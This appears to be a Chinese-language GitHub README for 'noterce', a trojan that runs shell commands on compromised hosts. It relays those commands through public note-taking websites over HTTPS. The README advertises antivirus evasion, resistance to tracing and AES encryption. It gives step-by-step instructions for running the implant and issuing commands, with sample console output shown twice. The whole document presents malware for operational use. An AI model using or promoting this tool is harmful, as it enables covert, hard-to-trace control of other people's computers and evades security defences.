 # noterce
一种另辟蹊径的免杀执行系统命令的木马,通过https“公开笔记”网站来交互通信交互


## 优缺点

优点:
- 免杀
- 有效避免被溯源
- AES加密

缺点:
- 运行慢(命令执行需要等待30秒后才返回结果)
- 功能少

ps:作者因为懒癌,被控端被下线后后,在控制端的主机列表中,不会自动将该主机显示下线
## 使用
client为控制端
server为被控制端


1. 在被控端运行被控端
- 被控端运行命令 key参数制定notekey admin参数执行主控 ：
./server --key notekey --admin ocis

2. 控制端刷新在线主机列表


```shell
0:主机名:[penetration]  note地址:[BpLnfgDsc3WD9F3qNfHK6a95jjJkwz]       notekey地址:[zhu1234554321zhu]


1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)
```


3.控制端执行命令
```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```


```shell
1.获取在线主机列表(不一定全)
2.执行主机命令(需要等待30秒)
3.删除主机(可能主机被控木马已被杀掉,列表不会自动删除,需要手动删除)

2
请输入note地址:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入notekey:BpLnfgDsc3WD9F3qNfHK6a95jjJkwz
请输入shell命令:whoami
请等待30秒
jpass
```

